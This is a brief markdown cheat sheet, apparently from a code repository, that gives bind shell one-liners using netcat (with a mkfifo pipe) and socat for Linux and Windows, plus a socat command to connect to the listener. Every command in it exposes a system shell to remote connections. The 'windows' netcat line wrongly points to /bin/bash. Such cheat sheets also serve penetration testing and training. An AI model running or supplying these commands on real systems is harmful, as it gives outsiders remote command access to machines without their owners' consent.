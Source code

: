 
### Netcat

linux
```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
than connect with nc from your local 

windows
```
nc -lnvp <PORT> -e /bin/bash
```


### Socat 
linux 
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

Windows
``socat TCP-L:<PORT> EXEC:powershell.exe,pipes``

and to connect
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`
mind the trailing '-', since socat always needs two addresses to bind.

